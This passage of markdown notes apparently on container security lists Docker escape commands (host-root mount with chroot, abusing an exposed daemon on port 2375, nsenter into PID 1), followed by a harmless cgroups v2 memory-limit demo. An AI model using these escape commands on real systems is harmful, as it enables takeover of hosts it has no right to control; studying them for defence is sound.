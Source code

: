 ```bash
docker run -it --rm -v /:/host alpine chroot /host sh
```
Even if we are already in the container, socket is host based, so if we the mount host folder, it will also be the first level filesystem(it's on the host, no matter how many times deep we're in the container)

### [](#header-3) If docker daemon is exposed(portainer/jenkins for remote administration):

port 2375
```bash
docker -H tcp://REMOTEIP:2375 ps
docker -H tcp://REMOTEIP:2375 run -it --rm -v /:/host alpine chroot /host sh
```

### [](#header-3) Namespaces abuse:

```bash
nsenter --target 1 --mount --uts --ipc --net /bin/bash
```
We switch namespaces to PID 1 process

# [](#header-1)Cgroups

Check which cgroups version is used (different directories structure, so we need to know :) )
```bash
mount | grep cgroup
if cgroup2 so v2
```

Create out own cgroup:
```bash
sudo mkdir /sys/fs/cgroup/custom_cgroup
```

Limit memory(50MB):
```bash
echo $((50 * 1024 * 1024)) | sudo tee /sys/fs/cgroup/custom_cgroup/memory.max
```

Create new process or just out current PID into out cgroup's config:
```bash
echo $$ | sudo tee /sys/fs/cgroup/custom_cgroup/cgroup.procs
```

Run test
```bash
stress --vm-bytes 49M --vm-keep -m 1
> OK

stress --vm-bytes 100M --vm-keep -m 1
Get smth like(OOM kills us):
stress: info: [247560] dispatching hogs: 0 cpu, 0 io, 1 vm, 0 hdd
stress: FAIL: [247560] (425) <-- worker 247561 got signal 9
stress: WARN: [247560] (427) now reaping child worker processes
stress: FAIL: [247560] (461) failed run completed in 0s
```

